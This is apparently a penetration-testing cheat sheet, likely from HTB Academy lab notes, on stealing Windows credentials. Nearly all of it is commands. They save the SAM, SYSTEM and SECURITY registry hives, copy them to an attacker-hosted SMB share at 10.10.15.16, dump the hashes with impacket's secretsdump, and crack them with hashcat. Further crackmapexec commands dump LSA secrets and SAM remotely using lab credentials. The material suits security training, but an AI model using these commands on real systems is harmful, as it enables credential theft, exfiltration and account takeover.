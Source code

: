 #windows/auth/SAM
SAM (Security Account Manager) is a database file in Windows operating systems that stores local user accounts and security descriptors for users on the local machine. It is a critical component of the Windows security system and is located in the `C:\Windows\System32\config` directory.

The LSA is a core component of Windows security, responsible for authentication, authorization, and enforcing security policies. It operates within the LSASS.exe process and is critical for maintaining the integrity and security of the system.

#### SAM Hives:
* `hklm\sam` 	        Contains the hashes associated with local account passwords
* `hklm\system` 	Contains the system bootkey, which is used to encrypt the SAM database.
* `hklm\security` 	Contains cached credentials for domain accounts. 

Saving:
```cmd
C:\WINDOWS\system32> reg.exe save hklm\sam C:\sam.save

C:\WINDOWS\system32> reg.exe save hklm\system C:\system.save

C:\WINDOWS\system32> reg.exe save hklm\security C:\security.save
```

##### Create a smb share to copy saved hives to attack machines:
```shell
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/
```
##### Copy:
```cmd
move sam.save \\10.10.15.16\CompData
move security.save \\10.10.15.16\CompData
move system.save \\10.10.15.16\CompData
```
##### Dump hashes:
```shell
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
##### Crack nthashes:
```bash
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```

#CrackMapExec 
##### Dumping LSA Secrets Remotely:
```shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --lsa
```
##### Dumping SAM Remotely:
```shell
crackmapexec smb 10.129.42.198 --local-auth -u bob -p HTB_@cademy_stdnt! --sam
```